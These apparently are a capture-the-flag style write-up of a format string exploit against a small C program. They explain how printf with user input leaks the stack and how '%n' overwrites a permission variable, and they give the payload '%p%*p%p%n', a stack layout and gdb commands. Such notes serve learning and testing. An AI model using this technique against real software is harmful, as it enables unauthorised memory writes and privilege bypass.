 1. Notice that input string is directly used in printf, so `%p` would be parsed as printf, and stack will be popped to try and get the pointer
2. In order to trigger the ocde we want, we need to modify the value stored at `perm` to > 0, using `%n`
3. modifying `fst.c` we see that `perm` is 32 bytes away
4. using `%*s` we can add an extra parameter to bypass the character limit. since the extra length parameter needs to be kept small so as to not write too large a value to the secret txt, we place it in the second position: `%p%*p%p%n` since values are:
```
0x7fffffffe910: [%p]
0x7fffffffe908: [%s/p] -->\0\0\0\0 [%s] prefix, 8 bytes
0x7fffffffe900: [%s/p] %s%LG%p\0  prefix_format, 8 bytes
0x7fffffffe8f8: [%p]   0x5555555594c0 -> 0/null
0x7fffffffe8f0: [%p]   0x5555555592a0 -> &fp 
0x7fffffffe8e8: perm
```
breakpoints:
`break 64`
`break fprintf`
`break 65`
`x/24x 0x7fffffffe8e8`
`info frame`
`x/24x $sp`